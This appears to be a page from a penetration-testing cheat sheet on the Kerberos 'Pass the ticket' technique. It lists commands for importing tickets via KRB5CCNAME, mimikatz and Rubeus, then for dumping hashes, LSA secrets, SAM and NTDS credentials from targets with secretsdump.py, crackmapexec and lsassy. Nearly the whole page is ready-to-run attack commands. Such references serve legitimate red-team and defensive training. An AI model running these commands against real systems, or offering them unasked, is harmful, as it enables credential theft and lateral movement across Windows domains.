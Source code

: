 ```yaml
---
description: >-
  A ticket can then be used to authenticate to a system using Kerberos without
  knowing any password. This is called Pass the ticket.
---
```


# Pass the ticket

Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

## Import tickets

#### Linux

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

#### Windows&#x20;

```bash
# With mimikatz

# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file

# With Rubeus
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

## Pass the ticket

#### Linux

```bash
# dump hashes and LSA secrets from a machine.
secretsdump.py -k $TARGET

# dump credentials from specific locations 
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds

# With Lsassy, dump credentails. They use different methods. 
# https://github.com/Hackndo/lsassy
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

